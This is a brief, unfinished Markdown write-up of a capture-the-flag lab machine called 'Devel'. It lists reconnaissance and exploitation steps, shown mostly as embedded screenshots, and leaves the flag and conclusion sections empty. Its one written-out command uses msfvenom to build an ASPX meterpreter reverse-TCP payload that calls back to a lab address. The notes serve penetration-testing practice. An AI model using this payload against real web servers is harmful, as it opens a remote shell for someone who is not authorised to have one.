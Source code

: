 # Devel Report

## 1. Information Gathering

### Nmap
![[nmap.png]]

### Port 80
![[port-80.png]]

### FTP
![[ftp.png]]


## 2. Exploitation
![[put-test.png]]
![[test-success.png]]


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f aspx -o venom.aspx
```


![[put-venom.png]]

![[metasploit.png]]

![[load-venom.png]]


### User Flag

### Root Flag

## 3. Conclusion